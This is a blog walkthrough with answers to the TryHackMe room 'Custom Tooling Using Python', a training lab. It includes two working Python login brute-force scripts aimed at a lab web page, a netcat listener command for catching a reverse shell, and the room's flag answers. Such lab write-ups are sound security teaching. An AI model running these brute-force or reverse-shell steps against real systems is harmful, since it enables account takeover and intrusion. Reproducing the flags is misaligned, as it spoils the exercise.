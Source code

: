 ```yaml
---
title: "[THM] Custom Tooling Using Python"
description: This is a full walkthrough with answers and explanations for the TryHackMe room "Custom Tooling Using Python".
author: hubert_k
date: 2025-04-24 15:00:00 +0800
categories: [THM]
tags: [Security, THM, Walkthrough]
pin: true
math: true
mermaid: true
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/62a7685ca6e7ce005d3f3afe-1743656880330
---
```


> Link to the room: <https://tryhackme.com/room/customtoolingpython>.
{: .prompt-info }

> Remember to start the VM and the Attack Box. Run the command: `echo "VM_IP python.thm" >> /etc/hosts` in the terminal before you start working on the next tasks.
{: .prompt-warning }

## [Task 2] Using a Coding Language for Custom Tooling

#### Does a scripting language perform better than a compiled language? (Yea/Nay)
```text
Nay
```
{: .nolineno }
{: file="Answer:" }

> Scripting languages are generally slower as interpretation only happens at runtime.
{: .prompt-tip }

#### Which compiled language is easy to cross-compile?
```text
Go
```
{: .nolineno }
{: file="Answer:" }

> An advantage of `Go` is : Fast executing and easy cross-compilation.
{: .prompt-tip }

#### Which scripting language is best suited for web-based exploits?
```text
JavaScript
```
{: .nolineno }
{: file="Answer:" }

> `JavaScript` is useful for web-based exploits and widely supported in web applications.
{: .prompt-tip }

---

## [Task 3] Developing a Brute-Forcing Tool

#### What is one of the renowned Python libraries used to send HTTP requests, interact with web applications, and analyse responses?
```text
requests
```
{: .nolineno }
{: file="Answer:" }

> <https://pypi.org/project/requests/>
{: .prompt-tip }

#### What is the flag value after logging in as admin?
```text
THM{Brute_Force_Success007}
```
{: .nolineno }
{: file="Answer:" }

> Create and execute this script on your Attack Box:
{: .prompt-tip }

{% raw %}
```python
import requests

url = "http://python.thm/labs/lab1/index.php"

username = "admin"

# Generating 4-digit numeric passwords (0000-9999)
password_list = [str(i).zfill(4) for i in range(10000)]

def brute_force():
    for password in password_list:
        data = {"username": username, "password": password}
        response = requests.post(url, data=data)
        
        if "Invalid" not in response.text:
            print(f"[+] Found valid credentials: {username}:{password}")
            break
        else:
            print(f"[-] Attempted: {password}")

brute_force()
```
{% endraw %}


#### Can you attempt to log in as Mark, whose password follows a specific pattern? His password consists of the first three characters as digits (000-999) followed by a single uppercase letter (A-Z). What is the flag value?
```text
THM{Brute_Force_Success_Mark001}
```
{: .nolineno }
{: file="Answer:" }

> My script for this task:
{: .prompt-tip }

{% raw %}
```python
import requests
import string

url = "http://python.thm/labs/lab1/index.php"

username = "Mark"

lowercase_alphabet = string.ascii_lowercase

# Generating 3-digit numeric passwords followed by a single uppercase letter (000A-999Z)
password_list = [str(i).zfill(3) + l for i in range(1000) for l in string.ascii_uppercase]

def brute_force():
    for password in password_list:
        data = {"username": username, "password": password}
        response = requests.post(url, data=data)
        
        if "Invalid" not in response.text:
            print(f"[+] Found valid credentials: {username}:{password}")
            break
        else:
            print(f"[-] Attempted: {password}")

brute_force()
```
{% endraw %}

---

## [Task 4] Developing a Vulnerability Scanner

#### How many vulnerabilities will be identified if we use the above scanner.py script with the updated URL <http://python.thm/labs/lab2/departments.php?name=?> (without changing the original code)
```text
0
```
{: .nolineno }
{: file="Answer:" }

> Change the URL in the scanner.py script and run it.
{: .prompt-tip }

#### After tweaking the above script to use the appropriate GET parameter, how many payloads are found? (with changing the original code)
```text
2
```
{: .nolineno }
{: file="Answer:" }

> Change line 18 to `response = requests.get(url, params={"name": payload})`.
{: .prompt-tip }

#### Which of the following is the valid type of vulnerability? Write the correct option only:
`A)` CSRF
`B)` SQL injection
`C)` Prototype Pollution
`D)` XSS

```text
B
```
{: .nolineno }
{: file="Answer:" }

> Result of the script: `Potential SQL injection detected with payload...`
{: .prompt-tip }

#### What is the name of the renowned library that is used to make concurrent requests to an endpoint?
```text
Threading
```
{: .nolineno }
{: file="Answer:" }

>  Running scans sequentially is slow, so we use multi-threading to send multiple requests simultaneously, making our scanner faster and more efficient. For this we can use the `threading` library.
{: .prompt-tip }

---

## [Task 5] Creating a Basic Exploit

#### What is the flag value?
```text
THM{basic_exploit_using_python}
```
{: .nolineno }
{: file="Answer:" }

> `1.` nc -lvnp 4444 `2.` Modify the last script and change the IP to the Attack Box. `3.` Find the file with the flag.
{: .prompt-tip }

---

## [Task 6] 

#### What is the flag?
```text
THM{6470e394cbf6dab6a91682cc8585059b}
```
{: .nolineno }
{: file="Answer:" }

> Modify the last script to use your Attack Box IP, and remember to have open a listener.
{: .prompt-tip }